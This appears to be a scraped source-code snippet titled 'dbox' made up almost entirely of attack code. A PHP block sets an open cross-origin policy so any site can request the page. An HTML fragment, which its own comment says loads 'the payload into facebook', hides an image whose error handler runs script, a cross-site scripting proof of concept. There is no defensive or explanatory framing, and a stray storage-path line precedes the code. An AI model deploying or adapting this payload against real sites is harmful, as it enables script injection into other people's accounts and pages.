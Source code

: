 dbox
====

&lt;?php // Specify domains from which requests are allowed header('Access-Control-Allow-Origin: *'); // Specify which request methods are allowed header('Access-Control-Allow-Methods: GET, POST, OPTIONS'); // Additional headers which may be sent along with the CORS request header('Access-Control-Allow-Headers: X-Requested-With'); // Exit early so the page isn't fully loaded for options requests if (strtolower($_SERVER['REQUEST_METHOD']) == 'options') { exit(); } ?> &lt;!-- this div is needed to load the payload into facebook --> &lt;div tab="home_menu" id="feed_tabbox" onreplace="fb.updateCurrentPage()"> &lt;img style="display:none" src="x" onerror="alert('emperor')" /> &lt;/div>
